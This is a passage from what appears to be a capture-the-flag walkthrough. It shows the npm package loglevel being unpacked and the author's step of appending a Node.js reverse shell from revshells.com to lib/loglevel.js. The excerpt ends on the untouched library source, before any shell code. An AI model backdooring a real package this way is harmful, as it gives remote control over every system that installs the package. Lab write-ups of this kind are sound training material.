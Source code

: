 package/test/vendor/json2.js
package/test/level-setting-test.js
package/test/local-storage-test.js
package/dist/loglevel.js
package/lib/loglevel.js
package/dist/loglevel.min.js
package/test/method-factory-test.js
package/test/multiple-logger-test.js
package/test/node-integration.js
package/test/test-context-using-apply.js
package/test/test-helpers.js
package/test/test-qunit.js
package/bower.json
package/package.json
package/CONTRIBUTING.md
package/README.md
package/index.d.ts
package/test/type-test.ts
package/_config.yml
package/.travis.yml
package/.github/FUNDING.yml
```



Add the node.js Revershell from revshells.com at the End of the loglevel.js
```
kavi@seventeen:~/repack$ nano ~/repack/package/lib/loglevel.js 
```
```c
kavi@seventeen:~/repack/package/lib$ cat loglevel.js 
/*
* loglevel - https://github.com/pimterry/loglevel
*
* Copyright (c) 2013 Tim Perry
* Licensed under the MIT license.
*/
(function (root, definition) {
    "use strict";
    if (typeof define === 'function' && define.amd) {
        define(definition);
    } else if (typeof module === 'object' && module.exports) {
        module.exports = definition();
    } else {
        root.log = definition();
    }
}(this, function () {
    "use strict";

    // Slightly dubious tricks to cut down minimized file size
    var noop = function() {};
    var undefinedType = "undefined";
    var isIE = (typeof window !== undefinedType) && (typeof window.navigator !== undefinedType) && (
        /Trident\/|MSIE /.test(window.navigator.userAgent)
    );

    var logMethods = [
        "trace",
        "debug",
        "info",
        "warn",
        "error"
    ];
```